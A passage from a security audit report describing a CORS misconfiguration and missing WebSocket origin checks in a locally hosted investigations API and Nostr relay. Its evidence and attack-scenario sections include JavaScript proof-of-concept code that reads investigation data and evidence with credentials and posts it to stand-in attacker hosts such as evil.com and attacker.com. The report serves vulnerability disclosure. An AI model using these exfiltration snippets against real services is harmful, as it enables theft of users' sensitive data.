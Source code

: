 ### 4. **Credentials and Sensitive Data Exposure** 🔴 CRITICAL
- **Location**: Multiple API endpoints
- **Severity**: CRITICAL (CVSS 9.3)
- **Issue**: CORS allows credential theft from any origin
- **Evidence**:
```javascript
// Any malicious website can now execute:
fetch('http://127.0.0.1:8081/api/v1/investigations', {
    method: 'GET',
    credentials: 'include' // Browser will send cookies/auth headers
}).then(r => r.json()).then(data => {
    // Send all investigation data to attacker
    fetch('https://evil.com/steal', {method: 'POST', body: JSON.stringify(data)});
});
```

### 5. **WebSocket Security Gaps** 🟡 MEDIUM
- **Location**: Nostr relay implementation
- **Severity**: MEDIUM (CVSS 6.7)
- **Issue**: WebSocket connections lack origin validation
- **Evidence**: No origin checking in WebSocket upgrade handlers

## Attack Scenarios

### Scenario 1: Cross-Origin Data Theft (10 seconds)
```html
<!-- Malicious website visits by user -->
<script>
// Steal all investigation data
fetch('http://127.0.0.1:8081/api/v1/investigations')
  .then(r => r.json())
  .then(investigations => {
    // Exfiltrate to attacker server
    fetch('https://attacker.com/collect', {
      method: 'POST',
      body: JSON.stringify(investigations)
    });
  });

// Steal evidence from all investigations
investigations.forEach(inv => {
  fetch(`http://127.0.0.1:8081/api/v1/investigations/${inv.id}/evidence`)
    .then(r => r.json())
    .then(evidence => {
      fetch('https://attacker.com/evidence', {
        method: 'POST',
        body: JSON.stringify(evidence)
      });
    });
});
</script>
```

